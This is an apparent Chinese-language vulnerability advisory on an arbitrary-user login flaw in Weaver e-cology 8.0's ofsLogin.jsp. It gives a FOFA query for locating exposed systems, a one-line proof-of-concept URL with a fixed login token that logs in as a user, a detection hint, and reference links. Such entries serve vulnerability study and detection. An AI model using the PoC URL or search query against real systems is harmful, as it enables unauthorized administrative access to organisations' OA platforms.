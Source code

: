 # 泛微e-cology前台任意用户登录漏洞

## 漏洞描述

泛微新一代移动办公平台e-cology8.0不仅组织提供了一体化的协同工作平台,将组织事务逐渐实现全程电子化,改变传统纸质文件、实体签章的方式。泛微OA E-Cology v8.0平台ofsLogin.jsp处存在任意用户登录漏洞，攻击者通过漏洞可以登录网站后台。

## 影响范围

网络空间测绘：app="泛微-协同商务系统"

## 漏洞复现

直接使用POC登录

```
http://x.x.x.x/mobile/plugin/1/ofsLogin.jsp?gopage=/wui/index.html&loginTokenFromThird=866fb3887a60239fc112354ee7ffc168&receiver=1&syscode=1&timestamp
```

## 研判分析

关注请求路径'mobile/plugin/1/ofsLogin.jsp?syscode='及响应状态码信息。

## 参考链接

泛微ecology9 ofsLogin.jsp信息泄露与前台任意用户登录漏洞分析

<https://zhuanlan.zhihu.com/p/631500509>

漏洞复现:泛微e-cology ofsLogin.jsp任意用户登录漏洞

<https://f5.pm/go-163903.html>

Weaver_ofslogin_vul

<https://github.com/A0WaQ4/Weaver_ofslogin_vul/tree/main>

泛微e-cology9 changeUserInfo信息泄漏及ofsLogin任意用户登录漏洞分析

<https://0xf4n9x.github.io/weaver-ecology9-changeuserinfo-ofslogin.html>
